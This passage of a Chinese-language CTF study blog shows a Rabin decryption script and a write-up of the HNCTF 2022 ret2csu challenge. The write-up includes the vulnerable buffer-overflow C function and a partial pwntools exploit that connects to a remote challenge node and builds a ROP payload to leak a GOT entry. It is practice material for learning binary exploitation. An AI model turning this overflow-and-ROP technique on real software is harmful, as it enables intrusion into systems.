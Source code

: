 ```python
import gmpy2

def rabin_decrypt(c, p, q, e=2):
	n = p * q
	mp = pow(c, (p + 1) // 4, p)
	mq = pow(c, (q + 1) // 4, q)
	yp = gmpy2.invert(p, q)
	yq = gmpy2.invert(q, p)
	r = (yp * p * mq + yq * q * mp) % n
	rr = n - r
	s = (yp * p * mq - yq * q * mp) % n
	ss = n - s
	return (r, rr, s, ss)
 
c = 
p = 
q = 
m = rabin_decrypt(c,p,q)
for i in range(4):
	try:
		print(bytes.fromhex(hex(m[i])[2:]))
	except:
		pass
```

​	感觉这段写的很水...因为证明模4余3素数的那个性质需要平方剩余之类的背景知识,所以我只能把这一块给略过了...总之,这至少暂时不影响我们做题,所以我们就当这个问题不存在吧.

##### 5:[HNCTF 2022 WEEK2]ret2csu

​	没错,就是上周组会里提到过的那个ret2csu.自己找了道差不多的题目写了下:

```c++
ssize_t vuln()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  write(1, "Input:\n", 7uLL);
  read(0, buf, 0x200uLL);
  return write(1, "Ok.\n", 4uLL);
}
```

```python
from pwn import *
from LibcSearcher import *
g_1=0x4012A6
g_2=0x401290
write_got=0x404018
main_add=0x4011DC
vuln_add=0x401176
read_got=0x404028
rdi_add=0x4012b3
r=remote("node5.anna.nssctf.cn",21385)
#r=process("./pwn")
#gdb.attach(r)
#pause()

context.log_level = 'debug'
context.arch = 'amd64'

def make_csustr(csu1,csu2,rdi,rsi,rdx,call,ret): 
	return p64(csu1)+b'a'*8+p64(0)+p64(1)+p64(rdi)+p64(rsi)+p64(rdx)+p64(call)+p64(csu2)+b'a'*56+p64(ret)

payload1=b'a'*0x100+b'b'*0x8+make_csustr(g_1,g_2,1,write_got,0x8,write_got,vuln_add)
```

[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制